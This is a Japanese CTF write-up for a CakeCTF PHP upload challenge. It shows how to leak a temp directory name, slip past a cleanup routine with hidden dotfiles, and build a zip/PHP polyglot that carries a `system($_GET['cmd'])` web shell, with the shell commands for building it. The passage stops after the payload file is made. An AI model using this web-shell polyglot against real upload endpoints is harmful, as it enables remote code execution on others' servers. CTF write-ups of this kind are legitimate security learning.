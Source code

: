 うまくすべてのvalidationが通り投稿できた後に、`"temp/$dname/a.zip.php"`にアクセスしたら任意コード実行ができそうです。

ただし、これには3つの壁があります:
1. `$dname`の文字列を奪取する
2. ファイルを投稿後に`cleanup`関数で消されないようにする
3. 投稿したファイルがPHPにzipファイルとして認識される

#### 1. `$dname`の文字列を奪取する

`$dname`の文字列がわからないとファイルのパスがわかりません。ソースコードを眺めるとこの文字列がクライアントに見えそうな部分が一箇所だけあります:
```php
        /* Move the files */
        if (@move_uploaded_file($tmpfile, "temp/$dname/$filename") !== TRUE)
            return array($dname, "Failed to upload the file: $dname/$filename");
```

`move_uploaded_file`をうまく失敗させたいです。これは、めちゃくちゃ長いファイル名にすると保存時にファイルシステムが怒ってくれるので失敗します。

`aaaaaaa{{ ...snip... }}aaaaaaaa.zip`という無限長の名前のファイルを送ればいいです。

#### 2. ファイルを投稿後に`cleanup`関数で消されないようにする

```php
/**
 * Remove a directory and its contents
 */
function cleanup($dname) {
    foreach (glob("temp/$dname/*") as $file) {
        @unlink($file);
    }
    @rmdir("temp/$dname");
}
```
ここで該当ファイルが削除されないようにしたいです。

色々と実験していたら`glob("*")`が隠しファイル（先頭が`.`のファイル）を無視することがわかりました。

#### 3. 投稿したファイルがPHPにzipファイルとして認識される

```php
        /* Check the uploaded zip file */
        $zip = new ZipArchive;
        if ($zip->open($tmpfile) !== TRUE)
            return array($dname, "Invalid file format");
```
ここでzipファイルとしてvalidかどうかを判定しています。
元々PHPコードを投げてRCEをしたかったわけなので、PHPとzipのpolyglotです。

CakeCTFはどこかの鬼畜難易度CTF[^2]ではないので、雑にzipファイルの末尾に`<?php system($_GET["cmd"]); ?>`をつけちゃってもいいんじゃない？という気持ちで試したら突破しました。

[^2]: https://github.com/waderwu/My-CTF-Challenges/blob/master/0ctf-2021/1linephp/writeup/1linephp_writeup_en.md

#### 攻撃

攻撃の準備が整ったのでフラグを取っていきます。

```sh
$ touch x
$ zip a.zip x
  adding: x (stored 0%)
$ echo '<?php system($_GET["cmd"]); ?>' | cat a.zip - > b.zip
```
これで攻撃用のファイル`b.zip`をつくります。


[^1]: 実際にはコンテスト中にこの謎挙動の仕様調査はせず、10回くらい同じ文字列を投げれば何個かヒット漏れするでしょという気持ちで、雑にリクエストを投げています。